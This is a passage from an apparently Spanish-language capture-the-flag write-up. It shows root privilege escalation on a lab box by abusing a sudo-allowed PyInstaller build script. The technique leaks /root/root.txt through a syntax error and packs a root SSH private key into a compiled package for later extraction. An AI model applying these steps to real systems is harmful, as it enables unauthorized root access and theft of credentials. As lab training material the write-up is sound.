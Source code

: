 ```null
tkeller@socket:/tmp$ cp qreader.spec /dev/shm/
tkeller@socket:/tmp$ cd !$
cd /dev/shm/
```

```null
tkeller@socket:/dev/shm$ sudo /usr/local/sbin/build-installer.sh build qreader.spec 
127 INFO: PyInstaller: 5.6.2
127 INFO: Python: 3.10.6
133 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
138 INFO: UPX is not available.
139 INFO: Extending PYTHONPATH with paths
['/root']
586 INFO: checking Analysis
586 INFO: Building Analysis because Analysis-00.toc is non existent
587 INFO: Initializing module dependency graph...
590 INFO: Caching module graph hooks...
599 WARNING: Several hooks defined for module 'numpy'. Please take care they do not conflict.
602 INFO: Analyzing base_library.zip ...
1647 INFO: Loading module hook 'hook-heapq.py' from '/root/.local/lib/python3.10/site-packages/PyInstaller/hooks'...
1774 INFO: Loading module hook 'hook-encodings.py' from '/root/.local/lib/python3.10/site-packages/PyInstaller/hooks'...
2968 INFO: Loading module hook 'hook-pickle.py' from '/root/.local/lib/python3.10/site-packages/PyInstaller/hooks'...
4375 INFO: Caching module dependency graph...
4485 INFO: running Analysis Analysis-00.toc
4515 INFO: Analyzing /root/root.txt

Syntax error in /root/root.txt
  File "/root/root.txt", line 1
     412ac87b165b0542647b710109e8690f
       ^
 SyntaxError: invalid decimal literal
```

Para ganar acceso, en el array datas también es posible añadir archivos en el array ```datas[]```

```null
datas=[('/root/.ss/id_rsa', '.')],
```

Tras volver a compilar, transfiero a mi equipo el archivo ```/opt/shared/build/qreader/qreader.pkg```. Con ```pyinstxtractor.py``` hago el proceso inverso

```null
python3 pyinstxtractor.py qreader.pkg
[+] Processing qreader.pkg
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 6462227 bytes
[+] Found 35 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: test.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: qreader.pkg

You can now use a python decompiler on the pyc files within the extracted directory
```
